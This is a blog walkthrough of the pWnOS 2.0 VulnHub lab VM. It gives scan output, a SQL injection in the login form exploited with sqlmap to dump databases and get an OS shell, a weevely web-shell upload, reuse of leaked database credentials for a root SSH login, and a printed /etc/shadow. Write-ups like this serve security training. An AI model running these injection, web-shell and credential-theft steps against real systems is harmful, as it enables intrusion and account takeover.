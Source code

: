 ```yaml
---
layout: post
title: "pWnOS: 2.0"
date: 2015-05-22 08:40:50 +0200
comments: true
categories: [vulnhub, pwnos]
---
```

Image: [pWnOS: 2.0 (Pre-Release)](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)

Nmap output:
{% codeblock %}
root@kali32:~# nmap 10.10.10.100 -sV -p-

Starting Nmap 6.47 ( http://nmap.org ) at 2015-04-27 14:45 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 14:45 (0:00:06 remaining)
Nmap scan report for 10.10.10.100
Host is up (0.00030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
MAC Address: 00:0C:29:61:0D:EB (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.54 seconds
{% endcodeblock %}

Nikto output:
{% codeblock %}
root@kali32:~# nikto -h 10.10.10.100
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.100
+ Target Hostname:    10.10.10.100
+ Target Port:        80
+ Start Time:         2015-04-27 14:46:59 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.17 (Ubuntu)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.3.5-1ubuntu7
+ The anti-clickjacking X-Frame-Options header is not present.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Apache/2.2.17 appears to be outdated (current is at least Apache/2.4.7). Apache 2.0.65 (final release) and 2.2.26 are also current.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3092: /info/: This might be interesting...
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ Server leaks inodes via ETags, header found with file /icons/README, inode: 1311031, size: 5108, mtime: Tue Aug 28 12:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ /login.php: Admin login page/section found.
+ 7331 requests: 0 error(s) and 22 item(s) reported on remote host
+ End Time:           2015-04-27 14:47:09 (GMT2) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endcodeblock %}

There is a SQL injection in email, we can see an error message trying to log in (filling an email field with the single quote):
{% codeblock %}
http://10.10.10.100/login.php:

An error occurred in script '/var/www/login.php' on line 47: Query: SELECT *
FROM users WHERE email=''' AND pass='86f7e437faa5a7fce15d1ddcb9eaeaea377667b8'
AND active IS NULL 

MySQL Error: You have an error in your SQL syntax; check the
manual that corresponds to your MySQL server version for the right syntax to
use near '86f7e437faa5a7fce15d1ddcb9eaeaea377667b8' AND active IS NULL' at line 1 
{% endcodeblock %}

Using Sqlmap we dump the whole databases:
{% codeblock %}
$ sqlmap -u "http://10.10.10.100/login.php" --forms --dump-all
[ .. snip .. ]
email=test@test.com&pass=123&submit=Login&submitted=TRUE
{% endcodeblock %}

We try to crack hashes but without success in the reasonable time:
{% codeblock %}
root@kali32:~/.sqlmap/output/10.10.10.100/dump# cat mysql/user-f3649c95.csv | cut -d, -f2-3 | sed 's#,#:#' > /tmp/hashes.csv
root@kali32:~/.sqlmap/output/10.10.10.100/dump# john --format=mysql-sha1 /tmp/hashes.csv 
[ .. snip .. ]
root@kali32:~/.sqlmap/output/10.10.10.100/dump# cat ch16/users.csv 
user_id,pass,email,active,last_name,first_name,user_level,registration_date
1,c2c4b4e51d9e23c02c15702c136c3e950ba9a4af,admin@isints.com,NULL,Privett,Dan,0,2011-05-07 17:27:01
{% endcodeblock %}

With OS Shell functionality of Sqlmap (--os-shell), we was able to obtain shell with the web user privileges:
{% codeblock %}
os-shell> cat /etc/passwd
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:
---
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:0:0:MySQL Server,,,:/root:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
landscape:x:104:110::/var/lib/landscape:/bin/false
dan:x:1000:1000:Dan Privett,,,:/home/dan:/bin/bash
{% endcodeblock %}

As we can see, MySQL daemon is running as root (=uid 0), this is also the
reason, why we were able to write something with database user to /var/www
(owned by www-data), that's not common.

We can also upload weevely to the remote system and use it as the more sophisticated shell:
{% codeblock %}
root@kali32:~# sqlmap -u "http://10.10.10.100/login.php" --data "email=test@test.com&pass=123&submit=Login&submitted=TRUE" --file-write="/var/www/weevely.php.txt" --file-dest=/var/www/w.php
{% endcodeblock %}

We found the database credentials, however they didn't work:
{% codeblock %}
www-data@web:/var/www $ cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'goodday');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
{% endcodeblock %}

That was strange, because the web application is connected. After a little more digging, we found this suspicious file:
{% codeblock %}
www-data@web:/var/www $ cat ../mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
{% endcodeblock %}

The [blog application](http://10.10.10.100/blog/index.php) uses the text files instead of MySQL. We were only
able to locate the password file, without cracking it:
{% codeblock %}
www-data@web:/var/www $ cat blog/config/password.txt
$1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/
{% endcodeblock %}

Using root / root@ISIntS we can finally log in via ssh as root:
{% codeblock %}
root@web:~# cat /etc/shadow 
root:$6$aO1TGdyc$XfiMyap/.QYhjIip5xxrgpO1ydlo.DQXns3fYYLt1hiH4Fp0PJP4TMoDSg3wpAFklF03dV2cUDL04YcR9bSSI/:15101:0:99999:7:::
daemon:*:15101:0:99999:7:::
bin:*:15101:0:99999:7:::
sys:*:15101:0:99999:7:::
sync:*:15101:0:99999:7:::
games:*:15101:0:99999:7:::
man:*:15101:0:99999:7:::
lp:*:15101:0:99999:7:::
mail:*:15101:0:99999:7:::
news:*:15101:0:99999:7:::
uucp:*:15101:0:99999:7:::
proxy:*:15101:0:99999:7:::
www-data:*:15101:0:99999:7:::
backup:*:15101:0:99999:7:::
list:*:15101:0:99999:7:::
irc:*:15101:0:99999:7:::
gnats:*:15101:0:99999:7:::
nobody:*:15101:0:99999:7:::
libuuid:!:15101:0:99999:7:::
syslog:*:15101:0:99999:7:::
mysql:!:15101:0:99999:7:::
sshd:*:15101:0:99999:7:::
landscape:*:15101:0:99999:7:::
dan:$6$Iu1ipXkP$F9Jdj7JNf56/UjrXgOTks3mqYO6J/ErWUtf.EWr2AT8lv6aHy3K6Ywjmd7HCUswgiEYDHMwq/aqwJToXl0ERs1:15101:0:99999:7:::
{% endcodeblock %}
